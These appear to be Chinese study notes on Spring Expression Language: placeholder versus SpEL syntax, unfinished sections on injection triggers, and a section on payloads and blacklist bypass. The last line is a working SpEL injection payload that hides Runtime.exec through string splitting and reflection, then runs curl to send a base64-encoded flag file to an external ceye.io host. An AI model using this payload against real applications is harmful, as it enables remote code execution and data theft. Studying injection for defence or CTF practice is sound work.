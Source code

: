 * 基于注解的使用

```java
public class EmailSender {
    @Value("${spring.mail.username}")
    private String mailUsername;
    @Value("#{ systemProperties['user.region'] }")    
    private String defaultLocale;
    //...
}
```

* 配置文件

```xml
<bean id="numberGuess" class="org.spring.samples.NumberGuess">
    <property name="randomNumber" value="#{ T(java.lang.Math).random() * 100.0 }"/>
    <!-- other properties -->
</bean>
```

| 特性     | $                      | #                            |
| -------- | ---------------------- | ---------------------------- |
| 作用     | 属性占位符，解析配置值 | SpEL 表达式，动态计算值      |
| 解析时机 | 应用上下文加载时       | 方法调用或运行时             |
| 典型场景 | 配置文件值注入         | 表达式校验、条件判断等       |
| 访问范围 | 配置文件中的键值对     | Bean、方法参数、上下文变量等 |

### SpEL表达式的漏洞触发

#### 可控属性(TODO)

* ？

#### 双重SpEL表达式（TODO 待验证）

```xml
<nxu:set var="directoryNameForPopup"
    value="#{request.getParameter('directoryNameForPopup')}"
    cache="true">
```

### SpEL表达式的常见Payload

* 前面RCE部分已经给出一些例子

##### 过滤与绕过

* 一般过滤是通过正则匹配java关键字，绕过例子见下，概括一下思路，就是使用SpEL的语法和java的反射、字符串处理函数、编码等过黑名单

`#{T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"/bin/bash","-c","curl fg5hme.ceye.io/`cat flag_j4v4_chun|base64|tr '\n' '-'`"})}`
